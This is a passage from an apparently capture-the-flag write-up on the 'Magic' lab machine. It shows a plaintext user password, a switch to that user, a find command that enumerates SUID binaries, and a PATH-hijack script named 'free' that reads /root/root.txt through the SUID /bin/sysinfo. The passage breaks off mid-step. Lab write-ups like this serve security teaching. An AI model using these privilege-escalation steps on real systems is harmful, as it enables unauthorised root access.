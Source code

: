 Th3s3usW4sK1ng

Try swicthing to theseus user and we are successful!

>www-data@ubuntu:/var/www/Magic$ su theseus
Password: 
theseus@ubuntu:/var/www/Magic$ pwd
/var/www/Magic
theseus@ubuntu:/var/www/Magic$

We can now read the user flag.

![user_flag](/images/magic/user_flag.png) 

## Privilege Escalation 
Privilege escalation on this box was fairly easy.

Searching for suid binaries returns a file /bin/sysinfo

>theseus@ubuntu:/tmp$ id
uid=1000(theseus) gid=1000(theseus) groups=1000(**theseus**),100(**users**)

>theseus@ubuntu:/tmp$ find / -perm -u=s -type f -group **theseus** 2>/dev/null 
>
>theseus@ubuntu:/tmp$ find / -perm -u=s -type f -group **users** 2>/dev/null 

>/bin/sysinfo
cat sysinfo


Running an enumeration script like linpeas.sh or LinEnum.sh would most likely return this as well.

Since the commands are being run as root (thanks to the suid bit) and without the full path, we can create a script with the same name of the command (eg. free) and then add the parent folder of the script as the first path to our environment variable 

>cd /tmp && touch free

Add commands to your script using nano (set $TERM envinronment variable first ) or echo

``` 
#this is my custom free script

echo $(whoami) && cat /root/root.txt

```
Make the file an executeable:
